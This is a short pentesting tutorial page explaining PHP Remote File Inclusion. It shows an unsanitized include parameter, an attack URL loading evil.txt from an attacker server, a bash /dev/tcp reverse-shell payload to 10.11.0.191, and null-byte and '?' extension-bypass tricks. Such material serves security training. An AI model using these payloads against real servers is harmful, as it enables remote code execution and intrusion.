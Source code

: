 # Remote File Inclusion \(RFI\)

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```text
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```text
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```text
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

### Avoid extentions <a id="avoid-extentions"></a>

Remember to add the nullbyte `%00` to avoid appending `.php`. This will only work on php before version 5.3.

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

